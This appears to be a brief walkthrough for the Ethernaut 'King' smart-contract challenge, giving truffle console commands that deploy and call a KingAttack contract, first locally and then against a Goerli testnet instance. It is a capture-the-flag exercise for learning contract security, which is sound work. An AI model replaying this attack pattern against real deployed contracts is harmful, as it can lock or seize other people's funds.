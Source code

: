 # King

[King](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)


## Test Attack

```BASH
truffle develop
```

```JS
migrate

k1 = await King.deployed()
(await k1.prize()).toString()
await k1._king()
await web3.eth.sendTransaction({from: accounts[9], to: k1.address, value: 15})
await k1._king()


k2 = await KingAttack.deployed()
await web3.eth.getBalance(k2.address)
await k2.youKing()
```

<BR />


## Live Attack

```BASH
truffle console --network goerli
```

```JS
k1 = await King.at('0x86a68e10f55baccC4d979dE3b389d3b38B5d1Fe6')
(await k1.prize()).toString()
await k1._king()

k2 = await KingAttack.deployed()
await web3.eth.getBalance(k2.address)
sender = accounts[5]
await k2.youKing({from: sender})
```
